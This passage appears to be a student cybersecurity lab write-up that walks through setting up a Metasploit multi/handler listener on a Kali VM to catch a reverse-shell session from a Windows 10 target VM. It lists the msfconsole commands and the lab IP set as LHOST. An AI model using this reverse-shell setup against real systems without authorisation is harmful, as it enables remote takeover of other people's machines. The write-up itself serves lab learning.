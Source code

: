 # Steps for using a multi/handler and changing the name of the payload and ran the exploit

In this step I need to use the multi/handler to exploit, establish, and manage session with the target Windows 10 VM, First I used the multi/handler and then giving the Lhost to that hadler that was the attacker Kali Linux VM IPv4 address, and then changing the name of the exploit to the name of the payload that I used in my previous steps, and finally ran the exploit.

# 1. Using a multi/handler to establish the connection with the Target Virtual Machine

In this step first I opened up the Metasploit by using the command "msfconsole" then used the multi/handler by using command "use exploit/multi/handler" then I used the command "options" first to check the lhost and there was no Lhost set, to do that I used the command "set lhost 192.168.20.13" to set the Lhost for the exploit that Lhost would be the attacker Kali Linux VM IPv4 address.

Using multi/handler from Metasploit Framework for setting up the exploit for the malware payload:
![multihand](assets/img/CybLabRevShell/cre_expl_handl.png)
